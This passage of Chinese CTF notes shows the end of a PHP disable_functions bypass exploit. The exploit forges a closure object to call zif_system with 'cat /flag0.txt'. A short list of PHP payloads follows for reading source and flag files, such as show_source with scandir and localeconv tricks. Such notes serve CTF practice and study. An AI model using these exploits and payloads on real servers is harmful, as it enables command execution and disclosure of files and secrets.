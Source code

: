 ```php

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }


    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 

    ($helper->b)($cmd);
    exit();
}

ctfshow("cat /flag0.txt");ob_end_flush();
?>
```

## 常用payload

### php函数读取源码

#### highlight_file

#### echo file_get_contents

```php
eval('echo file_get_contents('flag.php');')
```

#### show_source

```php
show_source(next(array_reverse(scandir(pos(localeconv())))))
```

-  scandir(’.’):扫描当前目录 
-  localeconv() 函数返回一包含本地数字及货币格式信息的数组。而数组第一项就是`.` 
-  pos(),current():返回数组第一个值 

```php
print_r(scandir(pos(localeconv())));
```

-  array_reverse反转数组，next指向数组指针的下一项 

[https://blog.csdn.net/weixin_43952190/article/details/107061554](https://blog.csdn.net/weixin_43952190/article/details/107061554)
